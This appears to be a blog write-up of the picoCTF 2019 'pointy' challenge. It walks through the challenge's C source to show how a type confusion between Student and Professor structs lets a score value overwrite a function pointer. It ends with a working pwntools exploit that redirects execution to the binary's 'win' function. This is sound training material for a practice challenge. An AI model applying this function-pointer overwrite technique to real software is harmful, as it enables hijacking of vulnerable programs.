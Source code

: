 ```yaml
---
title: "pointy - picoCTF 2019"
description: "pointy challenge picoCTF 2019 writeup"
summary: "pointy challenge picoCTF 2019 writeup"
categories: ["Writeup"]
tags: ["Pwnable"]
#externalUrl: ""
date: 2021-03-10
draft: false
authors:
  - th3_5had0w
---
```


## Pointy

What does this program do?

It will make a loop which will:

1. Create a new student struct and ask for student name

2. Create a new professor struct and ask for professer name

3. Search for the student who will give a professor some point

4. Search for the professor who will be given some point by the student chosen at step 3

5. Give the professor point

We could clearly see there are some bugs in vuln.c right in the first place

```c
int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;	//1: student struct was saved in ADDRESSES array
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;  //2: professer struct was also saved in ADDRESSES array
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor; //3: student->scoreProfessor is a function pointer point to giveScoreToProfessor
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor); //4: struct professor's change depends on retrieveProfessor function
        puts(professor->name);
        unsigned int value;
            printf("Input the score: \n");
            scanf("%u", &value);
        student->scoreProfessor(professor, value); //5: point will be given through function scoreProfessor
    }
    return 0;
}
```
We can now sense some buggy smell throught that 5 place

```c
struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};
```
The offset of Student->scoreProfessor is the same as Professor->lastScore

```c
void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}
```
The struct student and professor are on the same array, but this `retrieveProfessor` doesnt check for name if the professor has the same name as the student, this is the critical bug!

So now if we input `A` as the student name, `A` as the professor name, `A` for the student that will give score (bypass the program check).

And finally `A` as the professor name, the `retrieveProfessor` will now try to search professor named `A` but the student named `A` is at the first index of the array, so the program will give the `professor`  struct variable the `student` struct, and then because the offset of `Student->scoreProfessor` is the same as `Professor->lastScore`, the program will change the function pointer `Student->scoreProfessor` to the number of point, this was performed in `giveScoreToProfessor` function of struct `student`.

```c
void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score; // professor->lastScore is actually student->scoreProfessor because the program chose the student struct as professor struct and professor->lastScore is the same offset as student->scoreProfessor
    printf("Score Given: %d \n", score);

}
```
And i got this final exploit:
```python
from pwn import *

io = process('./vuln')
elf = ELF('./vuln')

def givescore(student, teacher, StudentGiveScore, teacherBeingGivenScore, score):
        print(io.recv())
        io.sendline(student)
        print(io.recv())
        io.sendline(teacher)
        print(io.recv())
        io.sendline(StudentGiveScore)
        print(io.recv())
        io.sendline(teacherBeingGivenScore)
        print(io.recv())
        io.sendline(str(score))

givescore(b'A', b'A', b'A', b'A', elf.sym['win'])
givescore(b'lmao', b'bruh', b'A', b'bruh', 1)
print(io.recv())
```
